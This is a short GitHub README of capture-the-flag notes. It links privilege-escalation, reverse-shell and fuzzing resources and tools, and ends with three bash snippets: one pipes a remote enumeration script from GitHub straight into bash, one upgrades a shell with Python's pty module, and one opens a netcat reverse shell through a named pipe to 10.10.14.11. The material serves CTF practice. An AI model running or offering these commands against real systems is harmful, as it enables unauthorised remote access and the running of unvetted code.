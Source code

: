 # ctf-notes

## Resources

- [GTFOBins](https://gtfobins.github.io/) - List of unix binaries which can be exploited to escalate privileges etc.
- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) - List of remote shells in various languages
- [NetCat without -e](https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/) - Reverse shell spawning when netcat does not support `-e`
- [Exploit DB](https://www.exploit-db.com/) - Exploit DB
- [Shell Upgrade Guide](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Windows Privelege Escalation](https://guif.re/windowseop) - Windows privelege escalation

## Tools

_(skipping obvious stuff like metasploit, nmap, john etc.)_

### Port Scanning
- [furious](https://github.com/liamg/furious)

### Fuzzing
- [scout](https://github.com/liamg/scout) - Lightweight URL fuzzer
- [gobuster](https://github.com/OJ/gobuster) - File/directory/DNS/VHOST buster
- [wfuzz](https://tools.kali.org/web-applications/wfuzz) - Advanced web fuzzer

### Crypto
- [pax](https://github.com/liamg/pax) - Padding oracle exploiter

### Linux Enumeration
- [LinEnum](https://github.com/rebootuser/LinEnum) - Linux enumeration script

## Snippets

### Linux Enumeration

```bash
curl -s https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Upgrade Shell

```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py && python /tmp/shell.py
```

### Reverse Shell w/ max compatibility

```bash
rm /tmp/backpipe; mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc 10.10.14.11 4445 1>/tmp/backpipe
```

